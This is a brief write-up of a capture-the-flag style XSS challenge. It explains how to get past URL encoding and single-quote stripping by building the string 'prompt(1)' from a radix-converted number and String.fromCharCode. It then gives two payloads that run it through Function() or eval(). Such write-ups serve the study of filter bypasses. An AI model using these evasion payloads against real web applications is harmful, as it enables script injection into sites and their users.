 This challenge will URL encode input and replace single quote.

Due to the URL Encoding, we cannot use double quotes and backticks, and there is also a `replace()` to sanitize single quotes.
So we basically can't use any string directly here.

But we can try to construct our payload as string by only calling String methods.
If the string we want is pure english lowercase, we can use `parseInt('string',radix)` to get the converted number of specific radix.

And then we can use following syntax convert the number to string:
```javascript
630038579..toString(30) // 'prompt'
```

But if we need special characters, we will need something like `String.fromCharCode()` to do that.
We can use `"(1)".charCodeAt(index)` to get the char code first.

And then we can construct the string and run it in `eval()` or `Function('...')()`!

Payload 1:
```javascript
Function(630038579..toString(30).concat(String.fromCharCode(40).concat(String.fromCharCode(49).concat(String.fromCharCode(41)))))()
```

Payload 2:
```javascript
eval(630038579..toString(30).concat(String.fromCharCode(40).concat(String.fromCharCode(49).concat(String.fromCharCode(41)))))
```
